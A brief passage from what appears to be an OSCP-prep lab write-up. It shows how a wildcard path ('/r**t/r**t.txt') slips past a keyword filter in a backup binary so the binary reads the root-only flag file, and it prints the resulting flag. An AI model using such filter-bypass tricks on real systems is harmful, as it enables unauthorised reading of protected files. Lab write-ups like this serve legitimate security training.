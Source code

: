 Since `*` isn't filter, we can use wildcard to link /root by using `/r**t`

`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**t/r**t.txt > output4_root`

Repeat the same steps as above

Need to use wildcard on `r**t.txt` as well since it contains the word **root**

root.txt ffafdabd4dda69693752bca85a6e6660




![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/a8b1aa79-82dc-4d76-adec-246f2b23b6e4)
